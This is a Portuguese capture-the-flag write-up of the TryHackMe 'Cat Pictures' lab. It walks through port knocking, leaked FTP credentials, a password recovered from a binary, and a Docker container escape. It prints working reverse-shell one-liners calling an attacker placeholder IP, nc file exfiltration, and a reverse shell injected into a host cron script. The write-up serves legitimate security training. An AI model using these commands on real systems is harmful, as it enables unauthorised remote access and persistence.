

## Resumo

Nesse LAB tive a oportunidade de lidar com uma configuração que já tinha ouvido falar mas nunca tive contato direto. O port knocking basicamente consiste em realizar uma conexão TCP ou UDP para uma sequência de portas predefinida para abrir uma porta específica no alvo disponibilizando assim um serviço que antes estava indisponível (nesse caso, o ftp).
Outro ponto interessante foi o container escape a partir da injeção de uma shell reversa em um serviço executado pelo host do container.  
Abaixo está o processo completo.

## Reconhecimento

```

Port Scan completo (`nmap -sS catpictures.thm -T4 -p-`):


```
```
PORT     STATE    SERVICE
21/tcp   filtered ftp
22/tcp   open     ssh
2375/tcp filtered docker
4420/tcp open     nvm-express
8080/tcp open     http-proxy
```

Levando em conta ser improvável esse ambiente possuir IPS, não me preocupei com o "barulho" que esse scan faria, na pior das hipóteses eu reiniciaria o LAB.


## Enumeração

A aplicação web na porta 8080 é um fórum phpBB ("Cat Pictures"). Um post no fórum praticamente entrega o que deve ser feito:


> Knock knock! Magic numbers: 1111, 2222, 3333, 4444

Criei um script para fazer o knock mas existem ferramentas prontas para tal, fiz pela diversão (`[knock.py](https://github.com/almeidaoffsec/writeups/blob/main/_writeups/thm-cat-pictures/scripts/knock.py)`):

```
python3 knock.py -h catpictures.thm -kp 1111,2222,3333,4444 -tp 21,22 -t 0.5
```

Após o knock, a porta 21/ftp (antes com status closed), abre. FTP com login anônimo habilitado. Dentro um arquivo (note.txt), contendo credenciais para o serviço interno na porta 4420:


> In case I forget my password, I'm leaving a pointer to the internal shell service on the server.
> Connect to port 4420, the password is `[redacted]` - catlover

## Exploração

Conectei a internal shell na porta 4420 via `nc`:


```
nc catpictures.thm 4420
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
```

Após autenticar com a senha vazada no FTP, consegui acesso a uma shell bem precária, injetei um shell reverso via FIFO pra dar uma melhorada na usabilidade:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP_ATACANTE> 5555 >/tmp/f
```

No diretório home do usuário `catlover`, foi encontrado um binário `runme` que solicita senha para execução:


O binário foi exfiltrado para a máquina local via `nc` puro (sem FTP/SCP disponível):

```sh
# atacante
nc -lvnp <PORTA> > runme
# alvo
nc <IP_ATACANTE> <PORTA> < runme
```

Análise estática com `strings` revela a senha em texto puro embutida no binário, logo antes da string do prompt:


Senha encontrada: `rebecca`

Executando o `runme` no alvo com essa senha, o binário gera e transfere uma chave SSH (`id_rsa`) para o usuário `catlover`:

```
Welcome, catlover! SSH key transfer queued!
```

## Pós-exploração

Chave privada transferida para a máquina local e usada para autenticar via SSH:

```sh
ssh -i id_rsa catlover@catpictures.thm
```

O acesso via SSH cai diretamente como **root** — porém percebi que estava em um container docker, tanto pela presença de `/.dockerenv` quanto pelo padrão do nome do host `root@7546fa2336d6`.

Dando aquela conferida no `.bash_history`, encontrei um script que chamou minha atenção `/opt/clean/clean.sh`:


Conteúdo original do script (aparenta ser executado periodicamente, possivelmente fora do container, para limpeza de `/tmp`):


```sh
#!/bin/bash
rm -rf /tmp/*
```

Como o script provavelmente é executado pelo host (fora do container) — por cron ou processo de manutenção —, foi injetado um shell reverso adicional ao final do arquivo, como técnica de **container escape**:


```sh
#!/bin/bash
rm -rf /tmp/*
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP_ATACANTE> 5555 >/tmp/f
```

Antes do escape, a flag do container foi coletada em `/root/flag.txt`:


Subi o listener na porta 5555 (`nc -nlvp 5555`) e aguardei, conexão recebida, fim do LAB:



```
whoami
root
cat root.txt
Congrats!!!
Here is your flag:
```

## Flags

| Flag | Valor |
|------|-------|
| Container (`/root/flag.txt`) | ver [`container_flag.png`](images/container_flag.png) |
| Root (host, `root.txt`) | ver [`root_flag.png`](images/root_flag.png) |

## Referências

- [TryHackMe — Cat Pictures](https://tryhackme.com/room/catpictures)
